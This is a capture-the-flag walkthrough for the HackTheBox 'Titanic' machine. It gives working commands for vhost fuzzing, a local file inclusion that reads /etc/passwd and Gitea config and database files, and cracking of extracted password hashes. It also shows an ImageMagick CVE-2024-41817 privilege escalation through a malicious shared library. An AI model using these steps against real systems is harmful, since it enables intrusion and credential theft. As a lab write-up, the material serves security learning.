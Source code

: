# Titanic CTF - HackTheBox Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Titanic** CTF challenge on [HackTheBox](https://app.hackthebox.com/machines/Titanic). 
---

we see open ports 22 and 80

![scn](imgs/scn.png "scn")

![mp](imgs/mp.png "mp")

we can use ffuf to enumerate vhosts 

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://titanic.htb -H 'Host: FUZZ.titanic.htb'  -fl 10
```

![ff](imgs/ff.png "ff")

we found `dev`, adding to /etc/hosts

on dev subdomain we found gitea

![gt](imgs/gt.png "gt")

![gtt](imgs/gtt.png "gtt")

first some password in `docker-config/mysql/docker-compose.yml`

![dc](imgs/dc.png "dc")

in `docker-config/gitea/docker-compose.yml` we found some custom path `/home/developer/gitea/data`

![dcc](imgs/dcc.png "dcc")

in `flask-app/tickets/` we see possible usernames and emails

![t](imgs/t.png "t")

![tt](imgs/tt.png "tt")

```
{"name": "Rose DeWitt Bukater", "email": "rose.bukater@titanic.htb", "phone": "643-999-021", "date": "2024-08-22", "cabin": "Suite"}
{"name": "Jack Dawson", "email": "jack.dawson@titanic.htb", "phone": "555-123-4567", "date": "2024-08-23", "cabin": "Standard"}
```

from source code we know about /download route, we also know about ticket parameter, now we can try LFI by accessing

![ap](imgs/ap.png "ap")

![dw](imgs/dw.png "dw")

```
http://titanic.htb/download?ticket=/etc/passwd
```

![pw](imgs/pw.png "pw")

it works and we see the file being download

we can capture the request using burp

![pp](imgs/pp.png "pp")

we know about user developer so we can try to check for private ssh keys (sadly there arent any)

we can combine the custom path we found in gitea files with  gitea configuration cheat sheet `https://docs.gitea.com/next/administration/config-cheat-sheet`, to access app.ini file 

![cs](imgs/cs.png "cs")

```
/download?ticket=/home/developer/gitea/data/gitea/conf/app.ini
```

![pa](imgs/pa.png "pa")

from this config file we know about database in `/home/developer/gitea/data/gitea/gitea.db`

we can download the database and examine it with sqlitebrowser

![db](imgs/db.png "db")

we see users and passwords hashed with pbkdf2

we can try to crack them but first we need a tool to convert to hashcat format `gitea2hashcat.py` from `https://github.com/unix-ninja/hashcat/blob/master/tools/gitea2hashcat.py`

to convert we can use command 

```
sqlite3 _home_developer_gitea_data_gitea_gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py > hash.txt
```

![cv](imgs/cv.png "cv")

now we use hashcat 

```
hashcat -a 0 -m 10900 hash.txt /usr/share/wordlists/rockyou.txt
```

![cr](imgs/cr.png "cr")

the password worked and we can login via ssh and grab user flag

![us](imgs/us.png "us")

there is some script in /opt directory that uses imagemagick

![op](imgs/op.png "op")

we can check the version of imagemagick

![vr](imgs/vr.png "vr")

this version is vulnerable to exploit `https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8`

to test the exploit we can use `https://github.com/Dxsk/CVE-2024-41817-poc`

```
python CVE-2024-41817-poc/exploit.py -c "id" -H 10.10.11.55 -p 22 -u developer -P pass -A
```

we can do it manually and modify the command from the POC to:

![gh](imgs/gh.png "gh")

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("cp /root/root.txt root.txt; chmod 754 root.txt");
    exit(0);
}
EOF
```

we gained root flag

![rt](imgs/rt.png "rt")

# MACHINE PWNED
